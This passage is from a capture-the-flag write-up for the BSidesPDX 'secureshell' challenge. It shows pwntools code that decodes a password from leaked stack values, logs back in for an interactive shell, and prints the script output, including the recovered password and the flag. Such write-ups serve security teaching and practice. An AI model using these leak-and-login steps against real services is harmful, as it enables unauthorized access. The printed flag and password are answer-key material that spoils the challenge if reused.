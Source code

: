 Now we must parse the string, `ret` to decode the actual password.

```python
# Extract password from leaked values on the stack
addrs = ret.split('.')
addrs = addrs[7:] # skip the first 7 addresses

password = ''
for addr in addrs:
    # Check if null byte
    if 'nil' in addr:
        break
    # Remove '0x' from string
    addr = addr.replace('0x', '')
    # Decode hex -> ascii string
    password_part = addr.decode('hex')
    # now reverse the bytes
    password_part = password_part[::-1]
    password += password_part

log.info('Password: %s' % password)
```

Finally, let's reconnect to the binary/service and send the password that we previously leaked:

```python
# Now that we have the password, reconnect for the shell
p = getp()

# Username
p.recvuntil('Username: ')
p.sendline(username)

# Password
p.recvuntil('Password: ')
p.sendline(password)

p.interactive()
```

### Script Output

```
$ ./solution.py 
[+] Starting local process './secureshell': pid 8797
[*] Process './secureshell' stopped with exit code 1 (pid 8797)
[+] Receiving all data: Done (355B)
[*] Password: v3rys3curep455w0rd_827YNiwwnTxnUJM0
[+] Starting local process './secureshell': pid 8800
[*] Switching to interactive mode
$ cat flag.txt
BSidesPDX{ayy_lma0_my_5h3ll_i5_n0t_v3ry_s3cur3}
```
